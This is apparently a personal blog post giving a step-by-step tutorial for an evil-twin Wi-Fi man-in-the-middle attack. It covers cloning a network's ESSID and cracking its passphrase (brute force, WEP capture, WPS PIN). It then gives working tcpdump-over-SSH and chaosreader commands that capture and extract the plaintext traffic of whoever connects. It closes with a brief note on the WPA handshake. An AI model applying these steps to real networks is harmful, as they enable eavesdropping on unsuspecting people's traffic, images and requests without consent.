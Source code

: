 ```yaml
---
layout: post
published: true
title: Security-MITM-attack-via-Evil-twin-AP
---
```

## Setup a evil twin AP with same Password

### Prepare

- A router with OpenWRT (If you want to try on your laptop, try aircrack-ng also)
- Desktop for auditing

### Quick Start

- Setup the AP and bridge client to connect the orignal twin AP
- Name the AP with same ESSID, you don't need to change BSSID because it's designed with same
- Ask or Try to brute-force crack the passphrase of orignal AP (for WEP, you can also try to capture packets to decrypt, for WPS enabled router, you can attack it by cracking the PIN code)
- Setup the Evil AP with the same passphrase

After this, you can wait until someone (maybe your own mobile phone) connect to your AP without any manual configuration. That's the beauty of SSID system.

- Install tcpdump on the router
- Install chaosreader on your desktop

On desktop, redirect the tcpdump output into local file.

`ssh user@ROUTER_IP "tcpdump -s 0 -U -w - -i ra0 not port 22 and not host DESKTOP_IP" > /tmp/all.cap`

and then `mkdir /tmp/chaos && cd /tmp/chaos && chaosreader /tmp/all.cap`

this will extract all the traffic which are in plaintext and then create a index.html in current folder, open the index.html, you will see a report with images and HTTP requests. Enjoy it.

### Difficulties

- WPA is resisting MITM through four handshakes

Both sides computing a shared pseudorandom generated from two nonce and PMK using PBKDF2-SHA1, without revealing the PMK.

```
PTK =
PseudoRandom( PSK / PMK in EAP, 
                            AP a_nonce,
                            STA s_nonce,
                            AP MAC_address,
                            STA MAC_address)

Private secret: PSK / PMK in EAP
Public values: AP nonce, STA nonce, AP MAC address, STA MAC address
Shared secret: PTK
```

- Https Spoofing is not included in this tiral, because it's kind of tricky when you have to use a illegal certificate or have to attack TLS protocol from basis, will mention it next time.
